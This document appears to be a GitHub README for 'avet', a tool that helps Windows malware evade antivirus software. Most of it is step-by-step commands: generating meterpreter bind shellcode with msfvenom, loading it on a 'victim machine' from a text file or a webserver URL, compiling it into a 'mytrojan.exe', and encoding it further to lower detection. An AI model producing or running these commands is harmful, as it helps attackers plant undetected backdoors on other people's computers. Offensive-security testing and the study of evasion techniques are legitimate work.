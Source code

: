 AntiVirus Evasion Tool
======================

Avet was developed based on Backtrack 5, but also works with Kali 2. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. 

Because of the huge interest I decided to spend some time for enhancing & developing avet.

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
and: https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus eavasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- for encoding the shellcode the tool format.sh and sh_format are included
- this readme applies for Kali 2 and tdm-gcc

How to install tdm-gcc with wine:
https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt & avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -f shellcode.txt
```

Example 2, loading shellcode from a webserver:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -u yourserver/sc_clean.txt
```

How to use make_avet
--------------------
Compile if needed:
```
$ gcc -o make_avet make_avet.c
```

Example 1, compile shellcode into the .exe file:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet -f sh_clean.txt
$ wine gcc.exe -o mytrojan.exe avet.c
```

Example 2, make an .exe file that downloads a shellcode from a webserver:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine gcc.exe -o mytrojan.exe avet.c
```

Check out the other options as well:
```
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help
```

Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (`echo "">defs.h`), then compile with:
```
$ wine gcc.exe -o avet.exe avet.c
```

Have a look for build.sh for easier handling.

For adding more random (and lower chances of detection) to the binary additionaly use msf encoders like shikata ga nai.
